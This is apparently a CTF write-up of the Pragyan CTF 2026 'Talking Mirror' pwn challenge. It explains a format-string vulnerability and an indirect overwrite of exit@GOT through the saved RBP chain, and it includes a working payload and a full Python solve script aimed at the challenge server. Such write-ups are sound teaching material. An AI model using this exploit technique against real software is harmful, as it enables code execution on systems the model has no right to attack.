








# Talking Mirror - Pragyan CTF 2026 PWN Writeup

**Category:** PWN
**Difficulty:** Hard
**Points:** 486 (initial 500, dynamic scoring)
**Flag:** `p_ctf{7hETAlk!n6M!RR0RSpOkeONE7OOmANyT!m3S}`
**Solved by:** Smothy @ **0xN1umb**

---



# FIRST BLOOD - 7:20:14 AM

> *"I am the talking mirror. I'll repeat everything you say. What could go wrong?"*
---

## Challenge Description



> This cursed mirror just repeats everything I say. I asked it for the flag and it just mocks me...
> `ncat --ssl talking-mirror.ctf.prgy.in 1337`

A classic format string challenge with a nasty twist - every writable GOT target has `\x0a` (newline) embedded in its address, which means fgets() chops our payload before we can place the address. Getting the flag requires an indirect write through the saved RBP pointer chain on the stack.

First blood at **7:20:14 AM** - before anyone else even got close. Let's walk through how we cracked the mirror wide open.

## TL;DR
Format string vuln in printf(user_input). All GOT addresses contain `\x0a` (newline), breaking fgets. Fini_array is read-only due to RELRO. Solution: use non-positional `%n` to write `exit@GOT` (0x400a50) through the saved RBP pointer chain, then `%hn` to overwrite exit@GOT with `win()` address. 4.2 million bytes of output for one flag. Format strings go brrr.

## Initial Recon

We get a binary and a service. Let's see what we're working with:


```
$ file challenge
ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped

$ checksec challenge
Partial RELRO | No Canary | NX Enabled | No PIE
```

No PIE, no canary - sounds like free real estate. The service just echoes back whatever you type, like a mirror. Let's look deeper.

## Step 1: Binary Analysis - Finding the Vulnerability



Three functions of interest:

- **`win()`** @ `0x401216` - Opens `flag.txt`, prints it, calls `_exit(0)`. Our target.
- **`vuln()`** @ `0x4012a3` - The vulnerable function:
  ```c
  char buf[112];
  fgets(buf, 100, stdin);
  printf(buf);      // FORMAT STRING VULN RIGHT HERE
  exit(0);          // Calls exit, not return
  ```
- **`main()`** @ `0x4012f1` - Sets up buffering, prints banner, calls `vuln()`.

The format string vulnerability is textbook: `printf(user_input)` without a format specifier. We control the format string, we can read and write arbitrary memory. Easy, right?


## Step 2: The \x0a Problem

Here's where things get spicy. The obvious play is to overwrite `exit@GOT` with `win()`. Let's check the GOT:

```
exit@GOT:   0x400a50
_exit@GOT:  0x400a18
puts@GOT:   0x400a20
printf@GOT: 0x400a30
fgets@GOT:  0x400a38
```



See the problem? **Every single GOT entry is in the 0x400aXX range**. That second byte `\x0a` is a newline character. And `fgets()` stops reading at newlines.

We can't put ANY GOT address in our format string payload because fgets will truncate it at the `\x0a` byte.

OK, what about `.fini_array` at `0x403e18`? No `\x0a` in that address! Overwriting it should redirect `exit()` to our win function...

```
SIGSEGV {si_code=SEGV_ACCERR, si_addr=0x403e18}
```

**NOPE.** Partial RELRO maps `.fini_array` as read-only at runtime. The write crashes. Strace confirmed it - `SEGV_ACCERR` means "access error", not "unmapped page". The address exists, it's just read-only.


## Step 3: The Breakthrough - Indirect Write via Saved RBP

For the homies who haven't touched format string exploitation beyond the basics: when you can't put an address in the buffer, you use one that's **already on the stack**.

Let me map the stack layout:



Key insight: **offset 20** on the stack is the **saved RBP** from `vuln()`. It's a pointer to `rbp_main`, which corresponds to **offset 22** on the stack.

If we use `%n` to write *through* the saved RBP pointer, we modify the value at offset 22. Then we can read offset 22 as a pointer for a subsequent `%hn` write!

The trick: we use **non-positional format specifiers** (no `$` signs). This forces glibc to consume arguments sequentially via `va_arg`, which reads directly from the stack. Unlike positional mode (which caches argument values), non-positional mode sees our mid-printf stack modifications in real-time.


## Step 4: Crafting the Exploit



Here's the full attack chain:

**Phase 1: Write `exit@GOT` address into stack slot**
- Print exactly 4,196,944 characters (= `0x400a50`) using `%c` padding
- 18 `%c`'s consume args 2-19 (each prints 1 char)
- `%n` writes the total count (4,196,944 = 0x400a50) to `*[saved_rbp]`
- This modifies **arg 22** on the stack to equal `0x400a50` = `exit@GOT`!

**Phase 2: Overwrite exit@GOT with win()**
- Print 1,990 more chars (total mod 65536 = 0x1216 = 4630)
- `%hn` writes 0x1216 to `*[arg 22]` = `*[0x400a50]` = `exit@GOT`
- `exit@GOT` now points to `win()` at `0x401216`

**Phase 3: Profit**
- `vuln()` calls `exit(0)` -> PLT jumps to `exit@GOT` -> actually calls `win()` -> FLAG!

The payload:
```python
payload = b'%4196926c' + b'%c' * 18 + b'%n' + b'%1990c' + b'%hn'
# Only 56 bytes! Well within the 100-byte fgets limit.
```

The math:
```
Before %n:  4196926 + 18 = 4,196,944 = 0x400a50
Before %hn: 4,196,944 + 1,990 = 4,198,934
            4,198,934 mod 65536 = 4,630 = 0x1216
```

## Running the Exploit



Fired it at the remote server over SSL. 4.2 million bytes of whitespace later... the mirror spilled the flag.

Pwntools SSL kept dying on us, so we went raw - Python's `ssl` module with `select()` for non-blocking I/O. Sometimes the old ways are the best ways.

## The Flag



```
p_ctf{7hETAlk!n6M!RR0RSpOkeONE7OOmANyT!m3S}
```

Leetspeak decode: **"The Talking Mirror Spoke One Too Many Times"**


Stats:
- **4,198,998 bytes** of output to get one flag
- **56 byte** payload
- **0 addresses** in the payload (everything done through stack pointers)
- **99.999%** of the output is just spaces from `%c` padding

## The Solve Script

```python
#!/usr/bin/env python3
"""
Talking Mirror - Pragyan CTF 2026
FIRST BLOOD - Solved by: Smothy @ 0xN1umb

Format string indirect GOT overwrite via saved rbp chain.
"""
import ssl, socket, select, time

def exploit():
    exit_got = 0x400a50   # contains \x0a - can't put in buffer
    win_low  = 0x1216     # low 2 bytes of win() = 0x401216

    X = exit_got - 18     # 4196926
    Y = win_low - (exit_got % 0x10000)  # 1990

    # Non-positional: sequential arg consumption, no caching
    payload = f'%{X}c'.encode() + b'%c' * 18 + b'%n' + f'%{Y}c'.encode() + b'%hn'

    ctx = ssl.create_default_context()
    sock = socket.create_connection(('talking-mirror.ctf.prgy.in', 1337), timeout=30)
    ssock = ctx.wrap_socket(sock, server_hostname='talking-mirror.ctf.prgy.in')
    ssock.setblocking(False)

    all_data, banner_received = b'', False
    start = time.time()

    while time.time() - start < 90:
        readable, _, _ = select.select([ssock], [], [], 0.5)
        if readable:
            try:
                data = ssock.recv(65536)
                if not data: break
                all_data += data
                if b'\n' in all_data and not banner_received:
                    banner_received = True
                    ssock.setblocking(True)
                    ssock.send(payload + b'\n')
                    ssock.setblocking(False)
                    all_data = b''
            except ssl.SSLWantReadError: continue
            except: break
        if banner_received and b'p_ctf' in all_data: break

    idx = all_data.find(b'p_ctf')
    if idx >= 0:
        print(f"[+] FLAG: {all_data[idx:].split(b'\\n')[0].decode()}")
    ssock.close()

if __name__ == '__main__':
    exploit()
```

## The Graveyard of Failed Attempts

1. **Direct GOT overwrite** - Tried putting `0x400a50` in the buffer. fgets said "nice try" and truncated at `\x0a`. RIP.

2. **fini_array overwrite** - Address `0x403e18` is clean (no `\x0a`). Payload works perfectly... until `SIGSEGV: SEGV_ACCERR`. Partial RELRO maps fini_array READ-ONLY. Strace confirmed the crash at the write address itself.

3. **Positional format string indirect write** - Tried `%20$n` to modify stack, then `%22$hn` to write through it. Doesn't work because glibc caches all positional arguments in a prepass before processing. The modified value is invisible to subsequent reads.


The **non-positional** approach was the key. Without `$` specifiers, glibc uses `va_arg` sequentially, reading values directly from the stack at consumption time. Stack modifications from `%n` are immediately visible to subsequent `%hn`.

## Key Takeaways

1. **Partial RELRO protects more than you think** - `.fini_array`, `.init_array`, and `.dynamic` are ALL read-only. Only `.got.plt` remains writable.

2. **Non-positional vs positional format strings behave differently** - Positional (`$`) mode caches all argument values in a prepass. Non-positional mode reads them on-the-fly via `va_arg`, enabling mid-printf stack manipulation.

3. **The saved RBP chain is your friend** - When you can't place addresses in the buffer, the saved frame pointer creates a natural pointer-to-stack-value chain for indirect writes.

4. **`\x0a` in addresses is painful but solvable** - The binary's unusual memory layout (GOT at 0x400aXX) forced an advanced technique, but there's always a way.

5. **4.2 million bytes of output is fine** - The server handled it. TCP handles it. Don't be afraid of large format string padding.

## Tools Used

- pwntools (checksec, local testing)
- objdump / readelf (static analysis)
- strace (crash analysis - `SEGV_ACCERR` was the key to understanding RELRO)
- Python ssl/socket (raw SSL for reliable remote exploitation)
- Way too much caffeine

---
*Writeup by **Smothy** from **0xN1umb** team.*
*First blood on a 500-point PWN. The mirror repeated 4.2 million characters and then spilled the flag. Talk about oversharing. GG.*

